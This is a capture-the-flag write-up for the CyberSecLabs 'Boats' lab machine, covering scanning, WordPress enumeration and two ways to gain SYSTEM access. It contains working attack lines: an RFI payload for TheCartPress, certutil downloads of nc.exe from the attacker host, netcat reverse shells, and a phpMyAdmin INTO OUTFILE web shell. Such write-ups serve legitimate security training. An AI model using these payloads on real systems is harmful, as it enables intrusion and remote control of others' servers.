





# CyberSecLabs : Boats 172.31.1.14
Boats was a fun box to do. I was unable to get an intial foothold but with a little nudge, I was able to confirm on my doubts.

This box can be done in 2 ways.
- Using a vulnerable wordpress plugin
- Using a man made misconfiguration of phpMyAdmin

## Information Gathering

### Port Scan
Nmap Scans
```zsh
nmap -sS -Pn -p- -r 172.31.1.4
```
This will give us the open ports and we can then run default scripts and version check to find out more about it.

Script and Version scan:

```zsh
nmap -sC -sV -Pn -p 80,135,139,443,445,3306,3389,5985,47001,49152,49153,49154,49155,49162,49163,49164 172.31.1.14 -v                                  
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 10:13 EDT                                                                                                             
NSE: Loaded 151 scripts for scanning.                                                                                                                                       
NSE: Script Pre-scanning.                                                                                                                                                   
Initiating NSE at 10:13
Completed NSE at 10:13, 0.00s elapsed
Initiating NSE at 10:13
Completed NSE at 10:13, 0.00s elapsed
Initiating NSE at 10:13
Completed NSE at 10:13, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 10:13
Completed Parallel DNS resolution of 1 host. at 10:13, 0.00s elapsed
Initiating SYN Stealth Scan at 10:13
Scanning 172.31.1.14 [16 ports]
Discovered open port 3306/tcp on 172.31.1.14
Discovered open port 80/tcp on 172.31.1.14
Discovered open port 445/tcp on 172.31.1.14 
Discovered open port 139/tcp on 172.31.1.14 
Discovered open port 3389/tcp on 172.31.1.14
Discovered open port 135/tcp on 172.31.1.14 
Discovered open port 443/tcp on 172.31.1.14 
Discovered open port 49152/tcp on 172.31.1.14
Discovered open port 47001/tcp on 172.31.1.14
Discovered open port 49155/tcp on 172.31.1.14
Discovered open port 49154/tcp on 172.31.1.14
Discovered open port 49164/tcp on 172.31.1.14
Discovered open port 49153/tcp on 172.31.1.14
Discovered open port 49163/tcp on 172.31.1.14
Discovered open port 5985/tcp on 172.31.1.14
Completed SYN Stealth Scan at 10:13, 0.37s elapsed (16 total ports)
Initiating Service scan at 10:13
Scanning 15 services on 172.31.1.14                                                                                                                                         
Service scan Timing: About 60.00% done; ETC: 10:14 (0:00:38 remaining)
Completed Service scan at 10:14, 82.29s elapsed (15 services on 1 host)
NSE: Script scanning 172.31.1.14.
Initiating NSE at 10:14
Completed NSE at 10:15, 30.03s elapsed
Initiating NSE at 10:15
Completed NSE at 10:16, 60.55s elapsed
Initiating NSE at 10:16
Completed NSE at 10:16, 0.00s elapsed
Nmap scan report for 172.31.1.14
Host is up (0.17s latency).

PORT      STATE  SERVICE            VERSION 
80/tcp    open   http               Apache httpd 2.2.11 ((Win32) DAV/2 mod_ssl/2.2.11 OpenSSL/0.9.8i PHP/5.2.9)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: 3BD2EC61324AD4D27CB7B0F484CD4289
|_http-generator: WordPress 4.0.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.11 (Win32) DAV/2 mod_ssl/2.2.11 OpenSSL/0.9.8i PHP/5.2.9
|_http-title: Boats | Boats
135/tcp   open   msrpc              Microsoft Windows RPC
139/tcp   open   netbios-ssn        Microsoft Windows netbios-ssn
443/tcp   open   ssl/https?
|_ssl-date: 2020-05-26T14:15:18+00:00; +1s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_IDEA_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
445/tcp   open   microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open   mysql              MySQL (unauthorized)
3389/tcp  open   ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: BOATS
|   NetBIOS_Domain_Name: BOATS
|   NetBIOS_Computer_Name: BOATS
|   DNS_Domain_Name: Boats
|   DNS_Computer_Name: Boats
|   Product_Version: 6.3.9600
|_  System_Time: 2020-05-26T14:14:52+00:00
| ssl-cert: Subject: commonName=Boats
| Issuer: commonName=Boats
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-04-21T19:39:55
| Not valid after:  2020-10-21T19:39:55
| MD5:   6b62 b19c 0b8a bbd5 f5cf 8d45 0bc2 7c28
|_SHA-1: fa58 dc19 bcb2 b42a 0288 acad 7203 2a3d b357 360d                                                                                                                  
5985/tcp  open   http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0 
|_http-title: Not Found
47001/tcp open   http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0 
|_http-title: Not Found
49152/tcp open   msrpc              Microsoft Windows RPC
49153/tcp open   msrpc              Microsoft Windows RPC
49154/tcp open   msrpc              Microsoft Windows RPC
49155/tcp open   msrpc              Microsoft Windows RPC
49162/tcp closed unknown
49163/tcp open   msrpc              Microsoft Windows RPC
49164/tcp open   msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| nbstat: NetBIOS name: BOATS, NetBIOS user: <unknown>, NetBIOS MAC: 02:20:42:5e:3f:02 (unknown)
| Names:
|   BOATS<00>            Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  BOATS<20>            Flags: <unique><active>
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-26T14:14:50
|_  start_date: 2020-05-26T14:11:39

NSE: Script Post-scanning.
Initiating NSE at 10:16
Completed NSE at 10:16, 0.00s elapsed
Initiating NSE at 10:16
Completed NSE at 10:16, 0.00s elapsed
Initiating NSE at 10:16
Completed NSE at 10:16, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 174.08 seconds
           Raw packets sent: 16 (704B) | Rcvd: 16 (700B)

```
### Directory Fuzzing

I used a tool known as dirsearch. It is easily available from github, you can simply clone/download to use it.

```zsh
python3 dirsearch.py -u http://172.31.1.14:80 -e -r -R 3
```
Now from the results these stood out for me:

```zsh
[10:34:56] 301 -    0B  - /index.php/login/  ->  http://172.31.1.14/login/

[10:35:13] 301 -  360B  - /phpmyadmin  ->  http://172.31.1.14/phpmyadmin/
```
The second result will help us in the second way of rooting the box.

## Exploitation

Let us first do the the ```Wordpress``` way. For this we will use a tool known as ```Wpscan```.

Enumerated user using wpscan:

```zsh
wpscan --url http://172.31.1.14 --enumerate u
```
We got a user called ```James``` and you can try to brute force the password using wpscan but it will not yield results. But if you still want to try, this command should help.

```zsh
wpscan --url http://172.31.1.14 --passwords /usr/share/wordlists/rockyou.txt --usernames james
```

Moving on, we can also find if there are vulnerable plugins or themes . We can check that using this :

```zsh
 wpscan --url http://172.31.1.14 --enumerate ap --plugins-detection aggressive
```

**Please Note : This scan takes a long time to run and have to use ap instead of vp as it is due to some wpscan bug**

Once the scan was finished we got this :



If we do lookup for exploits on this we can see that there is a RFI exploit available.

```zsh
searchsploit thecartpress
```


On opening the exploit, you can see that we have to change the server address and the path and then add the location of our Remote file. Simple !

```
http://172.31.1.14/wp-content/plugins/thecartpress/checkout/CheckoutEditor.php?tcp_save_fields=true&tcp_class_name=asdf&tcp_class_path=
```
Now I will host a simple command in a php file to see if it working. Here are the contents of the file I created and named if myphp.php.

```php
<?php system('whoami'); ?>
```
Quickly host it on a python server where you created the ```myphp``` file

```zsh
python -m SimpleHTTPServer 8000
```

Edit the ```RFI``` URL with the IP of the machine and the path.

```http://172.31.1.14/wp-content/plugins/thecartpress/checkout/CheckoutEditor.php?tcp_save_fields=true&tcp_class_name=asdf&tcp_class_path=http://10.10.0.40:8000/myphp.php```

And here is what we see :



Now you can upload a nc.exe using certutil by changing the contents of the ```myphp``` file.

Replace ```whoami``` with this:

```certutil -urlcache -split -f http://10.10.0.40:8000/nc.exe %TEMP%/nc.exe```

If you donot know where nc is inside your kali, just use ```locate nc.exe``` and copy it to where you are hosting the python server

Now refresh the url and it should upload your nc file in the %TEMP% folder. Now we need to get a reverse shell via the nc.

Again change the contents of the ```myphp``` file with this:

```zsh
<?php system('%TEMP%/nc.exe -e cmd.exe 10.10.0.40 443'); ?>
```
Start a listener and wait 

```zsh 
rlwrap nc -lvnp 443
```
Now we have a shell with ```SYSTEM``` privilege.



You can grab the flags now.

## Using phpMYAdmin

I will explain this briefly.

Simply go to the directory of phpmyadmin as shown in the dirsearch :```http://172.31.1.14/phpmyadmin/```.

You can see that you can enter the panel without any creds. Simply, browse to the wordpress tab --> wpusers table. Click on the ```SQL``` tab and type this : ```SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"``` and hit GO.



Now visit the url : ```http://172.31.1.14/backdoor.php?cmd=whomai```

You will see that your command is executing. To get a reverse shell simply upload a nc.exe by hosting it and then typing this in the URL : ```certutil -urlcache -split -f http://10.10.0.40:8000/nc.exe %TEMP%/nc.exe``` instead of ```whoami```. 

Start a listener again and then fire this in the URL :

```http://172.31.1.14/backdoor.php?cmd=%TEMP%/nc.exe%20-e%20cmd.exe%2010.10.0.40%20443``` 

Boom ! You have a reverse shell ! 
